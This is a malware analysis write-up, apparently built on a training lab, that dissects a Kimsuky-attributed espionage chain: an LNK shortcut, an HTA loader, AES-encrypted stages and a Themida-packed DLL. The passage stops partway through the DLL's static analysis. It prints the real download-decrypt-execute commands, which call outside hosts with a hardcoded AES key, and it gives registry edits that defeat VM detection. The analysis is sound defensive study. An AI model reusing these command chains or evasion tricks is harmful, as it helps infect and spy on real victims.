> Note: This malware analysis is based on the Malops Lab named Operation Silent Serpent. To analyze the full malware sample or explore the lab environment, visit [Malops](https://malops.io/chain-challenges/operation-silent-serpent).

# 1. Executive Summary
This report details a sophisticated multi-stage cyber-espionage campaign attributed to **Kimsuky** (also known as APT43, Velvet Chollima), a North Korean state-sponsored threat group. The campaign employs a high level of operational security, utilizing social engineering, legitimate cloud infrastructure, and advanced evasion techniques to compromise targets—likely South Korean entities.

**Key Findings:**
- **Initial Access & Deception:** The attack begins with a "mojibaked" (garbled Korean text) malicious LNK file masquerading as a text document, alongside a password-protected decoy PDF. This compels the victim to execute the malware to obtain the password, leveraging human curiosity and trust.
- **Infrastructure Abuse:** The attackers utilize "Living off the Land" (LotL) techniques, leveraging legitimate services including **GitHub** for payload hosting and **Google Drive** for staging encrypted malware components. This allows command-and-control (C2) traffic to blend in with normal network activity, bypassing standard reputation-based filtering.
- **Adaptive Defense Evasion:** A critical feature of this campaign is a conditional execution flow. The malware queries the status of **Windows Defender**; if active, it deploys a stealthy, script-based PowerShell payload (fileless persistence). If Defender is inactive, it deploys a more aggressive, binary-based payload chain involving custom DLLs packed with commercial protectors (Themida, Enigma, UPX).
- **Targeting Specifics:** The malware contains hardcoded logic to harvest data specific to South Korean users, including **Naver Whale** browser cookies, **NPKI/GPKI** (National/Government Public Key Infrastructure) certificates, and **HWP** (Hancom Office) documents.
- **Capabilities:** The implant serves as a full-featured Remote Access Trojan (RAT) capable of keylogging, clipboard theft, cryptocurrency wallet extraction, Telegram session hijacking, and arbitrary command execution. It also employs **Reflective DLL Injection** to execute payloads directly within the memory of legitimate processes like Google Chrome.
# 2. Technical Analysis

## Initial Delivery and Deception

The initial stage of this attack involves the delivery of two files, a tactic designed to lend credibility to the overall attack and encourage user interaction. 
```powershell
dir

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        04-12-2025     13:26           2665 ╛╧╚ú.txt.lnk
-a----        12-07-2025     19:58         128497 ▒╣╝╝ ░φ┴÷╝¡.pdf
```

```powershell
Get-FileHash *

Algorithm       Hash
---------       ---- 
SHA256          E51C6DAF902638023E5922A871279E57D858761EF500C3BCB214737CD39FCBDD
SHA256          1D01EAB612DA7D635E6B92395EAD126E3E07B7987B3A38C8831E25CBCD5456B7
```

The strange filenames you see are Korean text that has been "mojibaked" (encoded in Korean EUC-KR/CP949 but displayed in a Western CP437/Latin system). Here is the decoding of the files.

| Garbled Filename | Decoded Original Name | English Translation                          | File Type              |
| ---------------- | --------------------- | -------------------------------------------- | ---------------------- |
| `╛╧╚ú.txt.lnk`   | `보호.txt.lnk`          | `Protection.txt.lnk` (or `Security.txt.lnk`) | **Malicious Shortcut** |
| `▒╣╝╝░φ┴÷╝¡.pdf` | `발신 공지서.pdf`          | `Dispatch Notice.pdf`                        | **Decoy Document**     |
The presence of the decoy PDF (Dispatch Notice.pdf) provides contextual legitimacy. **Crucially, this PDF is password-protected,** an intentional step by the threat actor to force a second action. The victim, unable to open the document, is compelled to click the seemingly harmless companion file, the shortcut (Protection.txt.lnk), which is disguised as a text document containing the password or instructions needed to open the PDF. The critical deception then lies in the file extension: the victim sees the seemingly harmless .txt extension, failing to recognize that the file is an executable .lnk (shortcut) object.
### LNK File Deconstruction

Further analysis of the shortcut file (`보호.txt.lnk`) using a link file parser (LECmd) confirmed that the file is weaponized, implementing several stealth and execution mechanisms.

```powershell
.\LECmd.exe -f .\╛╧╚ú.txt.lnk

  Source created:  2025-11-27 08:42:32
  Source modified: 2025-12-04 21:26:40
  Source accessed: 2025-12-04 21:30:48

--- Header ---
  Target created:  2025-03-11 19:03:42
  Target modified: 2025-03-11 19:03:42
  Target accessed: 2025-03-11 19:03:42

  File size (bytes): 4,54,656
  Flags: HasTargetIdList, HasLinkInfo, HasName, HasRelativePath, HasArguments, HasIconLocation, IsUnicode, HasExpIcon, EnableTargetMetadata
  File attributes: FileAttributeArchive
  Icon index: 97
  Show window: SwShowminnoactive (Display the window as minimized without activating it.)

Name: Text File
Relative Path: ..\..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Arguments: -e cABvAHcAZQByAHMAaABlAGwAbAAgAG0AcwBoAHQAYQAgACIAaAB0AHQAcABzADoALwAvAGwAaQBuAGsAMgA0AC4AawByAC8AQQA0ADYAYgBsADcANAAiAA==
Icon Location: C:\Windows\System32\imageres.dll
```

**1. Target Application Hijack:**  
Despite the file name, the shortcut is not linked to a document. Instead, the Relative Path property confirms the LNK file targets a native Windows binary: powershell.exe.

- **Relative Path:** `..\..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`

This immediate use of a legitimate system binary—a "Living off the Land" (LotL) technique—is a strong indicator of an advanced threat actor, as it allows the malicious action to be carried out without dropping a custom, easily detectable executable.

**2. Deception and Evasion Attributes:**  
The LNK file structure incorporates two key defense evasion tactics:

- **Icon Masquerade:** The Icon Location is set to C:\Windows\System32\imageres.dll (Index 97). This resource file provides system icons, and the selected index is used to visually mimic a generic text file icon, further reinforcing the deception of the .txt extension.
- **Stealth Mode:** The Show window flag is set to **SwShowminnoactive**. This critical setting forces the PowerShell process to run minimized and not active upon execution. The attacker's intent is clear: to prevent the victim from seeing the blue PowerShell command window flash on the screen when the shortcut is double-clicked, ensuring silent execution.

**3. The Base64 Encoded Command:**  
The most critical finding is the Base64-encoded string embedded within the LNK's Arguments field. This layer of obfuscation is designed to hide the payload from basic string searches.

The decoded command reveals the full execution chain:
```powershell
powershell mshta "https://link24.kr/A46bl74"
```
### The Redirection
As established, the execution of the LNK file launches the command powershell mshta "`https://link24.kr/A46bl74`". The use of the **.kr** (South Korea) TLD for the initial C2 domain is highly consistent with **Kimsuky** operations, as they frequently target South Korean entities and compromise local infrastructure to blend in with normal traffic.

Network analysis of the initial C2 request to `link24.kr` revealed that the domain acts as a sophisticated redirection service rather than hosting the payload directly. The attacker used a temporary redirect to obscure the true payload location:
```bash
curl -s 'https://link24.kr/A46bl74' -v

> GET /A46bl74 HTTP/1.1
> Host: link24.kr
> User-Agent: curl/8.5.0
> Accept: */*
> 
< HTTP/1.1 301 Moved Permanently
< Date: Thu, 04 Dec 2025 08:10:37 GMT
< Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips
< Set-Cookie: PHPSESSID=0k159nkkqbebu39j9v9tk9tlbl; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< Set-Cookie: LINK24USERPAGETRAFFICCHECKING5=103.182.68.23909CD5E3AC1EAB5224D225CFA6AF55F1B; expires=Thu, 04-Dec-2025 14:59:59 GMT; Max-Age=24562; path=/; domain=link24.kr
< Set-Cookie: USERTRAFFICIDX=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0; path=/; domain=.link24.kr
< Location: https://github.com/deepsearch-tech/ref/releases/download/v1.0.0/pwko.hta?v=1
< Content-Security-Policy: referrer always;
< Via: 1.1 google
< Alt-Svc: h3=":443"; ma=2592000,h3-29=":443"; ma=2592000
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
```

- The C2 server responds with an HTTP **301 Moved Permanently** status.

Crucially, the final payload location is specified in the Location header, which points to a trusted, high-reputation domain:
- **Redirection URL:** `https://github.com/deepsearch-tech/ref/releases/download/v1.0.0/pwko.hta?v=1`

This use of a public, cloud-based platform (GitHub) to host the next-stage payload is a sophisticated **defense evasion** technique. It successfully hides the final payload URL from static analysis of the initial LNK file and uses an established, trusted domain that is unlikely to be blocked by network security controls, allowing the traffic to blend in with legitimate developer or user activity.
#### The Infrastructure (GitHub Analysis)
The screenshots of the GitHub profile deepsearch-tech provide crucial intelligence:
- **Account Age:** "Joined last week" — This is a **Burner Account**, created specifically for this campaign.
- **Repo Name:** ref — A generic name designed to avoid suspicion.
- **Release Assets:**
    - pwko.hta (The payload our LNK file downloads).
    - sex_offender.zip
    - tax_notice.zip
- **Lure Themes:** The filenames in the release are highly aggressive social engineering lures. Kimsuky often uses topics like "Tax Evasion," "Sexual Harassment," or "Crypto Theft" to panic the victim into opening the files immediately without thinking.
```
https://github.com/deepsearch-tech/
```



*Note: When i was right this blog the account was taken down.*
## Stage 1: The Payload (pwko.hta)
The redirection from the compromised link24.kr infrastructure led to the download of a next-stage payload: the **pwko.hta** file.

- **File Hash (SHA256):** `587BDF94BDAEBCEE4B51202BEB507125A7FA37D705FB38CC076A9C1814578411`
- **File Size:** 58,290 bytes
- **File Type:** HTML Application (HTA)

```powershell
Get-FileHash .\pwko.hta

Algorithm       Hash
---------       ----
SHA256          587BDF94BDAEBCEE4B51202BEB507125A7FA37D705FB38CC076A9C1814578411
```
```powershell
dir .\pwko.hta

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        04-12-2025     00:09          58290 pwko.hta
```

Since the initial command chain uses mshta.exe, this file is designed to be executed directly by the Windows HTA host process. HTA files are highly dangerous as they execute code with full system privileges, effectively bypassing typical web browser sandboxing restrictions. The file itself contains a significant volume of VBScript (approximately 1,497 lines) designed to execute the core malicious functionality.
#### Obfuscation and Initial Code Block
The first lines of the VBScript inside pwko.hta employ complex arithmetic and hexadecimal calculations to construct key strings dynamically, a signature anti-analysis technique:
```vbscript
Dim ss, output, url1, url2, url3
ss = chr(-65756+CLng("&H10133"))
... [multiple lines of obfuscated character concatenation] ...
Set oShell = CreateObject (ss)
```
By manually decoding this initial block, it is evident that the VBScript is constructing the string **WScript.Shell** character by character. This technique is specifically intended to evade simple, signature-based detections that scan for the static string "WScript.Shell," which is commonly used by malicious scripts to gain command execution capabilities. Once constructed, the script initializes the Windows Script Host Shell object, granting it the ability to run system commands.
### Decrypted Actions of pwko.hta (Stage 1)
To uncover the true function of the pwko.hta VBScript, the file was safely isolated, converted to a VBScript file (stage1.vbs), and instrumented with logging (WScript.Echo) to trace the commands it attempts to execute. This bypasses the final Execute commands, allowing for clear observation of the intended malicious payload delivery and system checks.
```powershell
cscript.exe .\stage1.vbs

Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.

WScript.shell

cmd /c cd /d %temp% && curl -L -o password.txt "https://drive.google.com/uc?export=download&id=1u0g1doVUDc5VCeP653aze60SGlhs3efQ" && password.txt

cmd /c sc query WinDefend

If block ->
cmd /c cd /d %temp% && curl -L -o v3.log "https://drive.google.com/uc?export=download&id=1x49L0vvAqk_DIh2ymESmd48dc6QZ7Wto" && powershell -Command "[System.IO.File]::WriteAllBytes('v3.hta', (New-Object System.Security.Cryptography.AesManaged).CreateDecryptor([System.Text.Encoding]::UTF8.GetBytes('ftrgmjekglgawkxjynqrwxjvjsydxgjc'), [System.Text.Encoding]::UTF8.GetBytes('rhmrpyihmziwkvln')).TransformFinalBlock([System.IO.File]::ReadAllBytes('v3.log'), 0, [System.IO.File]::ReadAllBytes('v3.log').Length))" && del v3.log && mshta %temp%\v3.hta

Else block ->
cmd /c cd /d %localappdata% && curl -L -o pipe.log "https://drive.google.com/uc?export=download&id=1jqpw8UHpsY5ps3nKOfkyo2ql4hC23Mew" && powershell -Command "[System.IO.File]::WriteAllBytes('pipe.zip', (New-Object System.Security.Cryptography.AesManaged).CreateDecryptor([System.Text.Encoding]::UTF8.GetBytes('ftrgmjekglgawkxjynqrwxjvjsydxgjc'), [System.Text.Encoding]::UTF8.GetBytes('rhmrpyihmziwkvln')).TransformFinalBlock([System.IO.File]::ReadAllBytes('pipe.log'), 0, [System.IO.File]::ReadAllBytes('pipe.log').Length))" && del pipe.log && powershell Expand-Archive -Path pipe.zip && del pipe.zip
cmd /c cd /d %localappdata% && cd pipe && powershell -ExecutionPolicy Bypass -WindowStyle Hidden -NoProfile -File 1.ps1 -FileName 1.log
```
### Fulfilling the Decoy and Gaining User Trust
The first command is executed to finalize the initial social engineering phase by providing the promised password for the decoy PDF:
```powershell
cmd /c cd /d %temp% && curl -L -o password.txt "https://drive.google.com/uc?export=download&id=1u0g1doVUDc5VCeP653aze60SGlhs3efQ" && password.txt
```
The script moves to the %temp% directory and uses **curl** to download a file named password.txt from a trusted **Google Drive URL**. The file is then executed by calling password.txt, which opens it for the user.
```powershell
Get-FileHash .\password.txt

Algorithm       Hash
---------       ---- 
SHA256          912FC71662D52486838562581C3F44219A8E7B053590B13D4EDFBFC67E953D68       

type .\password.txt

kfgxl;Y859$#KG4fkdl^&
```
This action is a masterstroke of social engineering. By successfully providing the password, `kfgxl;Y859$#KG4fkdl^&`, and allowing the user to open the initial decoy PDF, the script dramatically increases the victim's **trust** in the process, making them less likely to notice or report the subsequent, silent, and malicious actions that are already taking place.
### System Defense Evasion Check

Immediately following the user-trust-gaining step, the script performs a check to determine the state of the system's security.
```powershell
cmd /c sc query WinDefend
```
It queries the status of the **WinDefend** service (Windows Defender). The result of this query dictates the flow of the subsequent attack. If Windows Defender is Stopped (or is inactive), the attacker will deploy one payload path (the **If block**); if it is active, a different, potentially more aggressive, path is taken (the **Else block**). This is a crucial **defense evasion** technique to tailor the payload to the security environment.
## Stage 2: Conditional Payload Delivery

The execution path of the malware now splits based on the result of the `sc query WinDefend` command performed in `System Defense Evasion Check`. This conditional logic is a key **Defense Evasion** TTP, allowing the Kimsuky threat actor to deploy a more fileless, stealthy payload when security tools are active, and a more persistent, file-based payload when defenses are down.
### If Block: Windows Defender Inactive (Aggressive Payload Path)

If the **WinDefend** service (Windows Defender) is found to be **STOPPED**, the script executes a chain of commands designed to download, decrypt, and install a full set of files, which suggests a more aggressive, file-based infection intended for an unprotected system:

```powershell
cmd /c cd /d %temp% && curl -L -o v3.log "https://drive.google.com/uc?export=download&id=1x49L0vvAqk_DIh2ymESmd48dc6QZ7Wto" && powershell -Command "[System.IO.File]::WriteAllBytes('v3.hta', (New-Object System.Security.Cryptography.AesManaged).CreateDecryptor([System.Text.Encoding]::UTF8.GetBytes('ftrgmjekglgawkxjynqrwxjvjsydxgjc'), [System.Text.Encoding]::UTF8.GetBytes('rhmrpyihmziwkvln')).TransformFinalBlock([System.IO.File]::ReadAllBytes('v3.log'), 0, [System.IO.File]::ReadAllBytes('v3.log').Length))" && del v3.log && mshta %temp%\v3.hta
```
This multi-stage command leverages several native Windows binaries to perform the payload delivery in a single, chained execution. 
The sequence begins with `cmd /c cd /d %temp%` to change the working directory to the user's temporary folder, a common staging area for transient malware. 
Once staged, the command uses the **curl** utility with the -L (follow redirects) and -o (output file) flags to download an encrypted payload from a trusted **Google Drive URL**, saving it as the benign-looking file **v3.log**. 

Immediately following the download, a **powershell** command is executed to perform the crucial decryption step: it reads the entire contents of v3.log, passes the bytes to a **System.Security.Cryptography.AesManaged** object with the hardcoded key (`ftrgmjekglgawkxjynqrwxjvjsydxgjc`) and IV (`rhmrpyihmziwkvln`), and writes the decrypted output the stage3 malware to a new file named **v3.hta**. Finally, the chain concludes with two critical actions: the original encrypted artifact is deleted via **del v3.log** to hinder forensic analysis, and the final payload is executed silently via `mshta %temp%\v3.hta`, launching the core HTA-based malware using a trusted Windows process.
- **Action:**
    1. Downloads an encrypted payload `v3.log`.
    2. Uses PowerShell to **AES Decrypt** it into `v3.hta`.
    3. Executes `v3.hta`.
- **Intelligence - Encryption Keys:**
    - **AES Key (32 bytes):** `ftrgmjekglgawkxjynqrwxjvjsydxgjc`
    - **AES IV (16 bytes):** `rhmrpyihmziwkvln`

```powershell
Get-FileHash .\v3.log

Algorithm       Hash
---------       ----
SHA256          411A5FD77961E5DF89A81165824EDA33D4B4049F26F7358ED2BC688B70430901

dir .\v3.log

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
------        04-12-2025     00:46        4821632 v3.log
```

```powershell
powershell.exe -ep bypass -Command "[System.IO.File]::WriteAllBytes('v3.hta', (New-Object System.Security.Cryptography.AesManaged).CreateDecryptor([System.Text.Encoding]::UTF8.GetBytes('ftrgmjekglgawkxjynqrwxjvjsydxgjc'), [System.Text.Encoding]::UTF8.GetBytes('rhmrpyihmziwkvln')).TransformFinalBlock([System.IO.File]::ReadAllBytes('v3.log'), 0, [System.IO.File]::ReadAllBytes('v3.log').Length))"

Get-FileHash .\v3.hta

Algorithm       Hash
---------       ----
SHA256          A358AC6BE54B74AA1AF1D5FBFC26AA5D8EF714A042CC3AAFDF8CC0F777D9C773


dir .\v3.hta

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        04-12-2025     15:04        4821622 v3.hta
```

The VBScript inside v3.hta first constructs and runs a command, then closes the HTA window:
```vbscript
oShell.Run ss, 0, False
self.close
```
The construction of the command string (ss) is, once again, obfuscated via arithmetic operations and VBScript functions (chr(), CLng(), &H). This is done to evade signature-based detection for the final execution call.
Below the main `<script>` block, beginning on line 359, the HTA contains two large, embedded Base64-encoded blocks, which are the malicious components that the constructed command is designed to extract and execute.


Instrumenting the VBScript with logging reveals a series of four chained commands, executed to split, decode, and run the two embedded Base64 strings.
```powershell
cscript.exe .\stage2.vbs

Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.

WScript.shell

cmd /c cd /d %localappdata% && findstr /b "tvKUW2rB" "

cmd /c cd /d %localappdata% && findstr /b "tvKUW2rB" "">2.log && certutil -decode -f 2.log user.txt && del 2.log

cmd /c cd /d %localappdata% && findstr /b "TVqQAAMAAA" "

cmd /c cd /d %localappdata% && findstr /b "TVqQAAMAAA" "">1.log && powershell -Command "[IO.File]::WriteAllBytes('sys.dll', [Convert]::FromBase64String((Get-Content '1.log' -Raw)))" && del 1.log && rundll32 sys.dll,h
```
### Command 1: Extract and Decode Shellcode Payload
```
cmd /c cd /d %localappdata% && findstr /b "tvKUW2rB" "">2.log && certutil -decode -f 2.log user.txt && del 2.log
```
It use the native Windows utility **findstr** to search the current HTA file (implicitly referenced by "" when executed by mshta) for the line beginning with the Base64 string `tvKUW2rB`. It redirects this line to the temporary file **2.log**.

Using the trusted **certutil.exe** binary (LotL) to **Base64 decode** the contents of 2.log, saving the decrypted output as **user.txt**.

```powershell
findstr /b "tvKUW2rB" v3.hta > 2.log 

dir .\2.log

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        04-12-2025     15:15            354 2.log

Get-FileHash .\2.log

Algorithm       Hash
---------       ----
SHA256          0BC4BF36EAF031F8A31BAEB1969B9CADFCBC82A804883F6865B8FB4ED988383B

certutil -decode -f 2.log user.txt

Input Length = 710
Output Length = 262
CertUtil: -decode command completed successfully.

dir .\user.txt

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        04-12-2025     15:16            262 user.txt


Get-FileHash .\user.txt

Algorithm       Hash
---------       ----
SHA256          6EA362409A97ACA030F2A59EA01A29DBFE574B77F8F0D749CF38B412FAC2451D
```
The decoded output is a 262-byte file (`user.txt`, SHA256: `6EA362409A97ACA030F2A59EA01A29DBFE574B77F8F0D749CF38B412FAC2451D`). Given its small size and the execution context, this payload is highly likely to be a small **shellcode** component, designed for in-memory execution to perform initial setup, a final reconnaissance step, or injection into a legitimate process.
### Command 2: Extract and Execute DLL

The following command extracts and decodes the embedded payload from _v3.hta_:

```powershell
cmd /c cd /d %localappdata% && findstr /b "TVqQAAMAAA" "">1.log && powershell -Command "[IO.File]::WriteAllBytes('sys.dll', [Convert]::FromBase64String((Get-Content '1.log' -Raw)))" && del 1.log && rundll32 sys.dll,h
```
- **Extracts the Base64 payload**  
    `findstr` searches v3.hta for any line beginning with the signature `TVqQAAMAAA` (the Base64-encoded header of a PE file) and writes that entire Base64 block into **1.log**.
- **Decodes the extracted data**  
    PowerShell then reads the Base64 content from 1.log, decodes it, and writes the resulting binary to **sys.dll**.  
    This 3.6 MB DLL is the actual malware stage.
```powershell
findstr /b "TVqQAAMAAA" v3.hta > 1.log

dir

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        04-12-2025     16:46        4808026 1.log

Get-FileHash .\1.log

Algorithm       Hash
---------       ----
SHA256          6dd92d3f14cb5ce0bb49a73032ef14a4ed3c62f38028fee40d5ffeeb245d9855

powershell -Command "[IO.File]::WriteAllBytes('sys.dll', [Convert]::FromBase64String((Get-Content '1.log' -Raw)))"

dir .\sys.dll

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        04-12-2025     15:24        3606016 sys.dll

Get-FileHash .\sys.dll

Algorithm       Hash
---------       ----
SHA256          DE7FE8842C46BC5C2F723DEE3D4B07043D531D067C06CAA3263000BCC41AECDD
```

## Stage 3: sys.dll

### 1. File Triage

| Attribute             | Value                                                            |
| -----------------------| ------------------------------------------------------------------|
| **File Name**         | `sys.dll`                                                        |
| **File Type**         | PE64 (DLL)                                                       |
| **File Size**         | 3.44 MiB (0x370600 bytes)                                        |
| **Architecture**      | AMD64                                                            |
| **Endianness**        | Little-endian                                                    |
| **Entry Point**       | 0x180038100                                                      |
| **Image Base**        | 0x180000000                                                      |
| **MD5**               | bb0c121384f2b95015428b9108398183                                 |
| **SHA-1**             | c9f8beda9d1b83eed4d7a47164763c68599a5f09                         |
| **SHA-256**           | de7fe8842c46bc5c2f723dee3d4b07043d531d067c06caa3263000bcc41aecdd |
| **Timestamp**         | 2025-12-03 18:15:26 (Hex: 0x639eebe)                             |
| **Compiler**          | MSVC (Visual Studio 2010, v10.0.40219)                           |
| **Protector**         | Themida / WinLicense (1.xx–2.xx)                                 |
| **Subsystem**         | Windows GUI                                                      |
| **Imports (visible)** | `kernel32.dll`, `comctl32.dll`                                   |
| **Exports**           | 1 export (`h`)                                                   |




The file `sys.dll` is a **64-bit Windows DLL** with a size of 3.44 MiB. Despite its size, it exposes **only two imports**—an immediate red flag indicating that the binary is **packed or heavily obfuscated**. The detection of **Themida / WinLicense protection** strongly supports this, as these commercial protectors are commonly used to hinder reverse engineering.

The **timestamp (Dec 2025)** is recent. The compiler information (MSVC 2010) and the presence of a minimal export table (single export named `h`) point toward a **custom loader stage** rather than a typical application DLL.

Overall, the metadata indicates that this DLL is **packed, obfuscated, and intended for staged execution**, consistent with malware designed to evade static analysis.
### 2. Unpacking

A quick online search for practical approaches to unpacking Themida-protected binaries led to a GitHub repository [GitHub - ergrelet/unlicense: Dynamic unpacker and import fixer for Themida/WinLicense 2.x and 3.x.](https://github.com/ergrelet/unlicense) containing a tool named **unlicense**, which is specifically designed to assist in unpacking DLLs and executables protected with **Themida/WinLicense 2.x and 3.x**. This tool works reliably with **Themida/WinLicense 1.x and 2.x** protections, which aligns with what was identified earlier in Detect It Easy (C++ binary packaged with Themida).

After downloading the tool from GitHub, the binary was tested locally. Running the following command:
```powershell
unlicense.exe .\sys.dll
```
produced an unpacked output file named:
```powershell
unpacked_sys.dll
```
#### Note on VM Detection
Making an anti–VM-detection virtual machine can be somewhat **painful**, so instead of hardening the entire VM, I decided to focus on identifying **the specific VM-detection technique** used by the Themida protector. 
##### VMWare
**After the challenge had been released for five days, I revisited it with the goal of finding a simpler and more beginner-friendly approach to unpack the sample.** During this process, I discovered that the protector inspects **graphics hardware information**, which ultimately resolves to a registry-backed value that reveals execution inside a VMware environment.

The Themida-protected DLL checks the following hardware-related value to identify the graphics driver description:
```powershell
(Get-ItemProperty -Path "HKLM:\SYSTEM\ControlSet001\Control\Class\{4d36e968-e325-11ce-bfc1-08002be10318}\0000").DriverDesc
```
In the default VMware environment, this value was set to:
```
VMware SVGA 3D
```
This string acted as a **VMware fingerprint**, triggering Themida’s virtual-machine detection logic. When this check succeeded, the protected DLL terminated early.
```powershell
PS C:\Users\Profzzor\Desktop> .\unlicense.exe .\sys.dll

INFO - Detected packer version: 2.x
frida-agent: Setting up OEP tracing for "sys.dll"
frida-agent: Target module has been loaded (thread #2420) ...
frida-agent: Exception handler registered
ERROR - Original entry point wasn't reached before timeout
Traceback (most recent call last):
  File "unlicense\application.py", line 90, in run_unlicense
SystemExit: 4
```

To bypass this protection, we can modify the queried registry value to spoof a non-VMware graphics adapter description:
```powershell
Set-ItemProperty -Path "HKLM:\SYSTEM\ControlSet001\Control\Class\{4d36e968-e325-11ce-bfc1-08002be10318}\0000" -Name "DriverDesc" -Value "Google SVGA 3D"
```
> **Note:** This operation requires **administrator privileges**, as the registry key is protected.

By changing the `DriverDesc` value, the Themida VM-detection check no longer identified the system as VMware.

After applying this registry modification, the protected DLL was executed again with `unlicense`, which successfully reached the original entry point and completed the unpacking process:
```powershell
PS C:\Users\Profzzor\Desktop> .\unlicense.exe .\sys.dll

INFO - Detected packer version: 2.x
frida-agent: Setting up OEP tracing for "sys.dll"
frida-agent: Target module has been loaded (thread #7496) ...
frida-agent: Exception handler registered
frida-agent: OEP found (thread #7496): 0x7fffb73d5a9c
INFO - OEP reached: OEP=0x7fffb73d5a9c BASE=0x7fffb73d0000 DOTNET=False
INFO - Looking for wrapped imports ...
INFO - Potential import wrappers found: 0
INFO - Resolving imports ...
INFO - Imports resolved: 106
INFO - Generated the fake IAT at 0x7fffb73c0000, size=0x350
INFO - Patching call and jmp sites ...
INFO - Dumping PE with OEP=0x7fffb73d5a9c ...
INFO - Fixing dump ...
INFO - Rebuilding PE ...
INFO - Output file has been saved at 'unpacked_sys.dll'
```
This resulted in a **cleanly unpacked DLL**, with reconstructed imports and a valid entry point, enabling full static analysis.
##### VirtualBox
While testing the sample in VirtualBox, I discovered that **Themida detects VirtualBox** using a different hardware-related registry value. Instead of checking the graphics driver description (as seen with VMware), the protected DLL queries **BIOS-related information** exposed through the registry. 

The following PowerShell commands show the queried values:
```powershell
(Get-ItemProperty -Path "HKLM:\HARDWARE\Description\System").VideoBiosVersion
Oracle VirtualBox Version 7.2.6 VGA BIOS
Oracle VirtualBox Version 7.2.6 VGA BIOS
Oracle VirtualBox Version 7.2.6
Oracle VirtualBox Version 7.2.6

(Get-ItemProperty -Path "HKLM:\HARDWARE\Description\System").SystemBiosVersion
VBOX - 1
```
These identifiers act as **VirtualBox fingerprints**, allowing Themida to detect that the program is running inside a virtual machine. When this check succeeds, the protected DLL terminates before the original entry point is reached.

To bypass this detection, the registry values can be modified to remove the VirtualBox identifiers and replace them with any descriptions:
```powershell
Set-ItemProperty -Path "HKLM:\HARDWARE\Description\System" -Name "SystemBiosVersion" -Value "Google"

Set-ItemProperty -Path "HKLM:\HARDWARE\Description\System" -Name "VideoBiosVersion" -Value "Google"
```
> **Note:** This operation requires **administrator privileges**, as the registry key is protected.

After changing these values, the VirtualBox fingerprint is no longer present, preventing Themida from detecting the virtualized environment.

Running the unpacking tool again now successfully reaches the original entry point:
```powershell
PS C:\Users\z\Desktop> .\unlicense.exe .\sys.dll

INFO - Detected packer version: 2.x
frida-agent: Setting up OEP tracing for "sys.dll"
frida-agent: Target module has been loaded (thread #5316) ...
frida-agent: Exception handler registered
frida-agent: OEP found (thread #5316): 0x7ff834805a9c
INFO - OEP reached: OEP=0x7ff834805a9c BASE=0x7ff834800000 DOTNET=False
INFO - Looking for wrapped imports ...
INFO - Potential import wrappers found: 0
INFO - Resolving imports ...
INFO - Imports resolved: 106
INFO - Generated the fake IAT at 0x7ff8347f0000, size=0x350
INFO - Patching call and jmp sites ...
INFO - Dumping PE with OEP=0x7ff834805a9c ...
INFO - Fixing dump ...
INFO - Rebuilding PE ...
INFO - Output file has been saved at 'unpacked_sys.dll'
```
This resulted in a **cleanly unpacked DLL**, with reconstructed imports and a valid entry point, enabling full static analysis.
### 3. Static Analysis (Unpacked DLL)
#### 3.1 Structural Overview

The unpacked file shows a normal PE64 DLL structure with readable sections and a valid entry point. 
 - **7 sections**, all accessible
- A valid **PE64 header**
- Language/Compiler: **Microsoft Visual C/C++**
- No Themida/WinLicense signatures
- New heuristic tag:` _Generic (Strange sections + Custom DOS)_` — expected for memory-dumped binaries
- Size ~3.50 MiB
- New timestamp corresponding to the moment of dumping

**Important Note:**  
No hashing is performed on the unpacked DLL. Since the unpacking step produces slightly different memory images every time, any generated hash value would be unstable and not useful for IOC generation.


#### 3.2 Imports and Exports

With the protector removed, **Binary Ninja** reveals a fully visible import table (Figure 4).  
The DLL now imports a wide set of Windows API functions, including:

- **File operations:** `CreateFileW`, `WriteFile`, `ReadFile`, `SetEndOfFile`, `FlushFileBuffers`
- **Process / environment:** `ExitProcess`, `GetCurrentProcessId`, `FreeEnvironmentStringsW`
- **System information:** `GetSystemTimeAsFileTime`, `QueryPerformanceCounter`, `GetTickCount`
- **Registry access:** `RegCloseKey` (via advapi32.dll)
- **Module and IAT operations:** `LoadLibraryW`, `GetModuleFileNameW`

The DLL exposes **a single export**, named `h`, and defines `_start` as its entry function inside the dump.

#### 3.3 Entry Point Analysis

The DLL’s entry point resolves to a compiler-generated startup routine responsible for setting up the C/C++ runtime environment. The code performs standard initialization tasks such as seeding internal runtime values, preparing thread-local storage, and invoking the Microsoft CRT initializer before transferring execution to the DLL’s real logic. No malware-specific behavior occurs here, and this entry point exists purely as boilerplate generated by the compiler. With the CRT setup complete, the actual malicious behavior resides in the DLL’s exported function.

#### 3.4 Export Function: `h`

The DLL exposes a single export named **`h`**, located at:
```c
Exported Function:
Ordinal 1  -> 0x7ffd55b91bf0 (Name: h)
```
This is the true entry into the malware’s operational logic.  
The function implements **virtualization checks, mutex guarding, staged payload handling, and C2-related activity**.
##### 3.4.1 Virtual Machine Detection (Anti-Analysis)

Upon execution, the malware first checks if it is running inside a VirtualBox environment by attempting to open a handle to the VBoxMiniRdrDN device driver.
```c
HANDLE hObject = CreateFileA(
    "\\\\.\\VBoxMiniRdrDN", 
    0x80000000, 
    FILE_SHARE_READ, 
    nullptr, 
    OPEN_EXISTING, 
    FILE_ATTRIBUTE_NORMAL, 
    nullptr
);

if (hObject != -1) {
    CloseHandle(hObject);
    // VM Detected: Trigger self-deletion routine
    result = sub_7ffd55b91000(); 
}
```
If the VirtualBox check passes (the handle is invalid), it proceeds to check for VMware by querying the Windows Registry for the VMware Tools key.
```c
